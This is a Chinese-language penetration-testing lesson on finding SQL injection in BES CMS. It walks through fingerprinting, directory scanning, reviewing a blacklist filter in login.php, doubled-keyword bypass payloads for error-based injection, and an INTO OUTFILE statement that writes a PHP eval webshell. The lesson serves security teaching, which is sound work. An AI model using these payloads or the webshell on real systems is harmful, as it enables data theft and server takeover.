# 🛡️ 课程P15：第13天 - SQL注入漏洞挖掘思路详解

在本节课中，我们将系统性地学习SQL注入漏洞的挖掘思路。课程将从一个实战网站出发，讲解如何识别目标、发现注入点、分析过滤规则并最终完成漏洞利用。整个过程将结合指纹识别、目录扫描、代码审计等多种技术，为你呈现一个完整的渗透测试流程。

---

## 🎯 概述：SQL注入漏洞挖掘的核心思路

面对一个可能存在SQL注入的网站，盲目测试往往效率低下。一个清晰的思路能帮助我们快速定位漏洞。核心流程通常包括：信息收集（识别CMS、框架、语言）、寻找潜在注入点、利用已知历史漏洞、分析代码过滤规则、手工构造Payload进行绕过。

上一节我们概述了整体思路，本节中我们来看看具体如何操作。





---

## 🔍 第一步：信息收集与指纹识别

打开目标网站后，第一步是判断网站的基本信息。

首先，查看网页源代码或特定标识。例如，在示例网站中，我们发现“BES企业网站管理系统”的标识，这表明它是一个开源的CMS。

我们可以通过搜索引擎（如百度或谷歌）搜索该CMS名称，通常能找到其官方源码或相关介绍。这证实了网站使用的是BES CMS，并且开发语言是PHP（通过文件后缀如.php可判断）。

此外，可以使用工具进行更精确的指纹识别。虽然工具如“御剑”或“DirSearch”常用于扫描目录，但它们也能辅助识别CMS。关键在于，识别出CMS后，我们就可以去搜索该CMS是否存在公开的历史漏洞。






---





## 📁 第二步：目录扫描与后台发现



如果从网站前台无法直接发现漏洞点，下一步就是扫描其目录结构，寻找隐藏的后台管理界面或其他敏感路径。

以下是进行目录扫描的常用工具：
*   **DirSearch**： 一款快速的目录扫描工具。
*   **御剑**： 另一款常用的目录扫描工具，功能全面。


在示例中，使用工具扫描后，我们发现了 `/admin/`、 `/boot/`、 `/upload/` 等目录。其中 `/admin/` 极有可能是网站的后台管理登录入口。


发现后台是渗透测试中的一个重要突破点，因为后台功能往往存在更多的安全风险。


---

## 💡 第三步：利用已知历史漏洞

识别出目标使用的是BES CMS后，我们应立即搜索其历史漏洞。

在搜索引擎中输入关键词，例如“BES CMS 漏洞”或“BES CMS SQL注入”。搜索结果中通常会包含多个漏洞披露文章，其中就可能涉及后台SQL注入、任意文件上传等。

通过阅读这些文章，我们可以快速定位到具体的漏洞点和利用方法。这是一种高效且常见的漏洞挖掘方式，尤其适用于存在公开漏洞的开源系统。


---



## 🧩 第四步：代码审计分析过滤规则

如果希望更深入地理解漏洞成因或应对自定义的过滤，就需要进行简单的代码审计。对于开源CMS，我们可以直接下载其源码进行分析。

在示例的BES CMS后台登录漏洞中，通过分析源码文件（如 `login.php`），我们找到了处理用户登录的代码段。关键发现如下：

1.  用户输入的 `user` 参数通过 `$_POST` 方式传入。
2.  该参数随后经过两个过滤函数处理：`fl_html` 和 `fl_value`。
3.  过滤后，参数被直接拼接进SQL查询语句中。

**代码示例：**
```php
$user = fl_html(fl_value($_POST['user']));
$sql = "SELECT * FROM bes_admin WHERE user='$user' AND password='$pwd'";
```
`fl_value` 函数是漏洞的关键，它采用**黑名单替换**机制，将某些关键词（如 `union`, `select`, `and`）替换为空字符串。但替换逻辑存在缺陷，可以通过**双写**方式绕过。

例如，如果过滤函数将 `union` 替换为空，那么输入 `ununionion` 在经过替换后，中间的 `union` 被移除，剩下的 `un` 和 `ion` 会重新组合成 `union`，从而绕过过滤。

---

## ⚔️ 第五步：手工构造Payload进行注入

了解了过滤规则（黑名单替换）后，我们就可以手工构造SQL注入Payload。

**1. 判断注入点：**
使用经典的 `order by` 语句测试，例如 `order by 5` 正常，`order by 6` 报错，说明当前查询的列数为5。

**2. 报错注入利用：**
由于页面显示数据库报错信息，我们选择使用报错注入。一个典型的报错注入Payload格式为：
```
and updatexml(1, concat(0x7e, (select database()), 0x7e), 1)
```
我们需要根据过滤规则对每个关键词进行绕过：
*   `and` 被过滤 → 使用 `anandd` 进行双写绕过。
*   `select` 被过滤 → 使用 `selselectect` 进行双写绕过。
*   `concat` 未被过滤，可直接使用。
*   等号 `=` 被过滤 → 可以使用 `like` 或 `in` 运算符替代。例如 `table_schema in (database())`。

**构造后的Payload示例：**
```
anandd updatexml(1, concat(0x7e, (selselectect database()), 0x7e), 1)
```
发送此Payload，即可在报错信息中看到当前数据库名。



**3. 获取数据：**
后续获取表名、列名、数据的步骤原理相同，只需替换括号内的查询语句，并持续对过滤关键词进行双写绕过即可。


---




## 🐚 第六步：高级利用 - SQL注入写WebShell

在特定条件下，SQL注入漏洞甚至可以用于向服务器写入WebShell，从而获取系统控制权。

**前提条件：**
1.  数据库用户需具备**FILE权限**。
2.  MySQL配置中的 `secure_file_priv` 参数值为空或指向可写目录。
3.  需要知道网站的绝对路径。

**写入WebShell的SQL语句原型：**
```sql
SELECT "<?php @eval($_POST['cmd']);?>" INTO OUTFILE '/var/www/html/shell.php'
```
在联合注入中，可以构造如下：
```sql
union select 1, "<?php @eval($_POST['cmd']);?>", 3, 4 INTO OUTFILE '/var/www/html/shell.php'
```
同样，需要对 `union`, `select` 等关键词进行双写绕过。网站路径可以通过报错注入、经验猜测或结合其他信息泄露漏洞获得。

---


## 📝 总结与回顾


本节课我们一起学习了SQL注入漏洞的完整挖掘思路：

1.  **信息收集**： 识别目标CMS、开发语言和框架，为后续搜索漏洞奠定基础。
2.  **目录扫描**： 使用工具发现隐藏目录，特别是后台管理入口。
3.  **漏洞搜索**： 利用搜索引擎查找目标CMS的公开历史漏洞，快速定位攻击点。
4.  **代码审计**： 通过分析源码理解漏洞成因和过滤机制，为绕过做准备。
5.  **手工注入**： 根据过滤规则（如黑名单替换），手工构造双写绕过的Payload，逐步获取数据库信息。
6.  **高级利用**： 在满足条件时，利用注入漏洞写入WebShell，进一步控制服务器。



核心要点在于：**思路优于盲目测试**。结合信息收集、利用公开漏洞和代码分析，能极大提高漏洞挖掘的效率和成功率。请务必在合法授权的前提下进行练习，并不断巩固这些技巧。